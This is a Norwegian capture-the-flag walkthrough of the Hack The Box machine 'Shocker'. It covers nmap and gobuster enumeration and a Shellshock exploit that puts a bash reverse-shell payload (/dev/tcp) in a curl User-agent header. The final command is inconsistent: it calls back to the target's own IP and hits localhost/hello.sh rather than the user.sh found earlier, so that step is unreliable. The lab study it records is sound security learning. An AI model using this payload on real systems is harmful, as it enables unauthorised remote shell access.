 # Shocker
### nmap

```
nmap -sV -sC 10.10.10.56
Starting Nmap 7.80 ( https://nmap.org ) at 2022-02-14 20:19 CET
Nmap scan report for 10.10.10.56
Host is up (0.058s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.82 seconds
```

### Hva vi gjør:
Det første vi gjør er å gå inn på nettsiden, der ser vi ikke mye annet dette:
<img src="website.png">
<p>Deretter kjører vi gobuster for å finne directories i nettsiden. Vi finner cgi-bin, server-status og /icons/READme.</p>
Jeg vil gjerne se mer av cgi-bin, så jeg kjører gobuster videre fra /cgi-bin/

```
gobuster dir -u http://10.10.10.56/cgi-bin/ -w /usr/share/wordlists/dirb/small.txt -x sh,pl
```
Vi finner kjapt: <b>user.sh</b>.
<p>Med litt kjapp google søk finner vi denne <a href="https://antonyt.com/blog/2020-03-27/exploiting-cgi-scripts-with-shellshock">artikklen</a></p>
Vi kjører en test:

```
curl -H "User-agent: myuseragent" http://10.10.10.56/cgi-bin/user.sh

vulnerable

Content-Type: text/plain
Just an uptime test script
```
Dette betyr vi kan injecte commands til maskinen og vi gjør da et reverse shell!

```
ncat -lvnp 1234

curl -i -H "User-agent: () { :;}; /bin/bash -i >& /dev/tcp/10.10.10.56/1234 0>&1" http://localhost/cgi-bin/hello.sh
```

Og vi har shell!
<p>
<img src="shell.png">
